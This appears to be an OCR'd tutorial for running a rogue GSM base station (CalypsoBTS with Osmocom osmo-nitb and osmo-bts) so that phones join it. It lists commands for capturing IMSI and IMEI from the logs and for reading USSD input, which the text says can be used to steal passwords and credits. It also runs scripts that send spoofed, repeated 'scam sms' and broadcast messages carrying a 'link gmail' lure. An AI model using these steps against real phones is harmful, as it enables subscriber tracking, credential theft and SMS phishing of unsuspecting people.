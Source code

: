 Running transceiver
```
bash trx.sh
```
Click button power of motorola phone  
Tape ctrl+shift+T  
Launching osmo-nitb  with debug mode --debug=DRLL:DCC:DMM:DRR:DRSL:DNM
Database at : /usr/src/CalypsoBTS/hlr.sqlite3    
```
osmo-nitb --yes-i-really-want-to-run-prehistoric-software -c /usr/src/CalypsoBTS/openbsc.cfg -l /usr/src/CalypsoBTS/hlr.sqlite3 -P -C --debug=DRLL:DCC:DMM:DRR:DRSL:DNM
```
Launching osmo-bts  with debug mode option : --debug DRSL:DOML:DLAPDM
```
osmo-bts-trx -c /usr/src/CalypsoBTS/osmo-bts-trx-calypso.cfg --debug DRSL:DOML:DLAPDM -r 99
```

Have a look on the terminal at the command : /usr/local/bin/osmo-nitb --yes-i-really-want-to-run-prehistoric-software -s -C -c /etc/osmocom2/osmo-nitb.cfg -l /var/lib/osmocom/hlr.sqlite3  --debug=DRLL:DCC:DMM:DRR:DRSL:DNM  


  
Tape `*#*#4636#*#*` and choose GSM only on your Android phone  
Search GSM network (on your phone), associate with PLMN MCC 001 && MNC 01  
Have a look on log for capturing IMSI and IMEI  

  
Tape `*#001#` for finding your phone number (extension with osmo-bts)   
Have a look on the log about USSD: Own number requested  

  
Tape USSD `*100*123#`
Have a look on log of USSB : Unhandled USSD  (possible to steal password and credits)
  

ctrl+shift+T
```
cd osmo-nitb-scripts/scripts_spoof2
```
Tape `*#*#4636#*#*` and choose GSM only on your Android phone  
Search GSM network (on your phone), associate with PLMN MCC 001 && MNC 01  
Tape `*#001#` for finding your phone number (extension with osmo-bts)   
```
python2 show_subscribers.py 
```
You could find imsi and extension  
Create a virtual extension 0341220590 and send sms to existing extension eg : 164
```
python2 sms_send_source_dest_msg.py 0341220590 164 "link gmail"
```
You could find imsi and extension  
```
python2 show_subscribers.py 
```
Creating many extensions for sending a scam sms repeat 3 times
```
python2 sms_spam.py 164 3 "link gmail"
```
You could find imsi and extension  
```
python2 show_subscribers.py 
```
Sending a broadcast sms by using a virtual number as extension 165
```
python2 sms_broadcast.py 165 "link gmail"
```
You could find imsi and extension  
```
python2 show_subscribers.py 
```
